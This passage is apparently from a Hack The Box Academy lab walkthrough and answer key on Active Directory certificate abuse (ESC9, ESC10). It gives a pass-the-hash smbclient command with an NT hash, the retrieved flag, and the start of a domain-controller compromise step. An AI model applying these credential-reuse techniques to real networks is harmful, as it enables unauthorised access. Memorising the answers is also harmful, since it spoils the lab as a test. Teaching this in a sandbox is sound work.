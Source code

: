 
Answer: `01b60104db80993eb9ead5d8f9127eec`

## ESC9

### Question 3

#### "Using user3's credentials, get the content of the flag at \\\lab.local\user3\flag.txt"

Using the previously attained NT hash `01b60104db80993eb9ead5d8f9127eec` of `user3`, students need to `pass-the-hash` with `smbclient` to download the file from `//lab.local/user3/flag.txt`:

Code: shell

```shell
smbclient //lab.local/user3 -U lab.local/user3 --pw-nt-hash 01b60104db80993eb9ead5d8f9127eec -N -c "get flag.txt"
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ smbclient //lab.local/user3 -U lab.local/user3 --pw-nt-hash 01b60104db80993eb9ead5d8f9127eec -N -c "get flag.txt"

getting file \flag.txt of size 21 as flag.txt (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
```

At last, when reading the contents of the file `flag.txt`, students will attain the flag `HTB{RESTR1CTED_SHARE}`:

Code: cmd

```cmd
cat flag.txt
```

```shell-session
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ cat flag.txt

HTB{RESTR1CTED_SHARE}
```

Answer: `HTB{RESTR1CTED_SHARE}`

## ESC10

### Question 1

#### "Abuse ESC10 and Resource-Based Constrained Delegation to compromise the DC and submit the content of the flag C:\Windows\System32\rbcd.txt"

After spawning the target machine, and before abusing `ESC10` and using the `Shadow Credentials` technique, students need to add vHost entries for the domain name `lab.local`, the CA's name `lab-LAB-DC-CA`, and its machine's DNS name `LAB-DC.lab.local` (which is also the DC's DNS name):
